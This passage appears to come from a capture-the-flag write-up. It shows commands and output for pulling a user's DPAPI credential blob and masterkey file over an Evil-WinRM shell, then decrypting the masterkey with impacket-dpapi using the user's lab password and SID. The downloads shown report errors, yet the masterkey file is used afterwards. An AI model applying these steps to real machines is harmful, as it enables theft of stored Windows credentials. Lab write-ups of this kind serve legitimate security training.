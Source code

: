 With the `SID` in our pockets we `downloaded` the `DPAPI Blob` (`C8D69EBE9A43E9DEBF6B5FBD48B521B9`).

```shell
*Evil-WinRM* PS C:\Users\steph.cooper\appdata\roaming\microsoft\credentials> download C8D69EBE9A43E9DEBF6B5FBD48B521B9
                                        
Info: Downloading C:\Users\steph.cooper\appdata\roaming\microsoft\credentials\C8D69EBE9A43E9DEBF6B5FBD48B521B9 to C8D69EBE9A43E9DEBF6B5FBD48B521B9
                                        
Error: Download failed. Check filenames or paths: uninitialized constant WinRM::FS::FileManager::EstandardError
```

Next we downloaded the `file` (`556a2412-1275-4ccf-b721-e6a0b4f90407`) containing the `Masterkey`.

```shell
*Evil-WinRM* PS C:\Users\steph.cooper\appdata\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107> download 556a2412-1275-4ccf-b721-e6a0b4f90407
                                        
Info: Downloading C:\Users\steph.cooper\appdata\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107\556a2412-1275-4ccf-b721-e6a0b4f90407 to 556a2412-1275-4ccf-b721-e6a0b4f90407
                                        
Error: Download failed. Check filenames or paths: uninitialized constant WinRM::FS::FileManager::EstandardError
```

Now we chained everything by specifying the `file` (`556a2412-1275-4ccf-b721-e6a0b4f90407`) and the `SID` (`S-1-5-21-1487982659-1829050783-2281216199-1107`) using the `password` of `steph.cooper` in order to `decrypt` the `Masterkey`.

```shell
┌──(kali㉿kali)-[~]
└─$ impacket-dpapi masterkey -file 556a2412-1275-4ccf-b721-e6a0b4f90407 -password 'ChefSteph2025!' -sid S-1-5-21-1487982659-1829050783-2281216199-1107
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[MASTERKEYFILE]
Version     :        2 (2)
Guid        : 556a2412-1275-4ccf-b721-e6a0b4f90407
Flags       :        0 (0)
Policy      : 4ccf1275 (1288639093)
MasterKeyLen: 00000088 (136)
BackupKeyLen: 00000068 (104)
CredHistLen : 00000000 (0)
DomainKeyLen: 00000174 (372)

Decrypted key with User Key (MD4 protected)
Decrypted key: 0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84
```

| Masterkey                                                                                                                          |
| ---------------------------------------------------------------------------------------------------------------------------------- |
| 0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84 |
